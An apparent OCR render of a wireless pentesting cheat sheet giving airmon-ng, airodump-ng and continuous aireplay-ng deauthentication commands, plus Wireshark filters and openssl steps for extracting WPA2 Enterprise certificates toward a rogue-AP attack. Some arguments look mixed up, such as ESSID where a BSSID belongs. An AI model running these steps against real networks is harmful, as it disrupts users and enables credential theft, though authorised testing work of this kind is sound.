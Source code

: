## WPA/WPA2/WPA3 Testing
Steps for testing security on networks with WPA/WPA2/WPA3 encryption, including setting up rogue APs and capturing handshakes:

## WPA2 Enterprise
Follow these steps to set up wireless monitoring and perform the attack.

### Step 1: Activate monitoring mode

```bash
airmon-ng check kill && airmon-ng start <interface>
```

### Step 2: Check AUTH column

```bash
airodump-ng <interface>
```
*Note: The AUTH column will say MGT.*

### Step 3: Capture the handshake

```bash
sudo airodump-ng -c channel -w ESSID interface
```

### Step 4: Deauthenticate the client to capture the handshake

```bash
aireplay-ng -0 0 -a ESSID -c client_ESSID interface
```

### Step 5: Analyze with Wireshark or tshark

After gathering the BSSID, ESSID, and channel:

- Use Wireshark or tshark with filters:
  ```bash
  wlan.bssid==E8:9C:12:02:66:AA && eap && tls.handshake.certificate
  ```
  or
  ```bash
  tls.handshake.type == 11,3
  ```

### Step 6: Save certificates using OpenSSL

View the Packet Details in TLSv1 Record Layer >> Handshake Protocol >> Certificate:

```bash
openssl x509 -inform der -in cert.der -text
```

*Details needed for the attack include: Issuer information.*

